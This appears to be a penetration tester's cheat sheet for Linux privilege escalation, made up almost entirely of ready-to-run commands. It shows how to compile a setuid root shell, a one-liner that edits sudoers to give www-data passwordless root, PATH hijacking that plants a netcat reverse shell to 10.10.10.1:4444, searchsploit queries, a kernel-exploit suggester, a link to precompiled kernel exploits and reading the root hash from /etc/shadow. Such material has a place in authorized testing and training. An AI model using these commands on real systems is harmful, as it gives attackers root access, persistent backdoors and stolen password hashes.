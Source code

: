 Building the SUID Shell binary
gcc -o suid suid.c
For 32 bit:
gcc -m32 -o suid suid.c

####Create and compile an SUID from a limited shell (no file transfer)####

echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c
gcc privsc.c -o privsc

Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement:
`echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`

--

# You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable
to execute your command instead. <br> In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on
port 4444.
- `set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"`
- `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh`
- `chmod +x ssh`

---

# SearchSploit
- `searchsploit â€“uncsearchsploit apache 2.2`
- `searchsploit "Linux Kernel"`
- `searchsploit linux 2.6 | grep -i ubuntu | grep local`
- `searchsploit slmail`

---

# Kernel Exploit Suggestions for Kernel Version 3.0.0
`./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0`

---

# Precompiled Linux Kernel Exploits  - ***Super handy if GCC is not installed on the target machine!***
- [*https://www.kernel-exploits.com/*](https://www.kernel-exploits.com/)

---

# Collect root password
- `cat /etc/shadow |grep root`

---
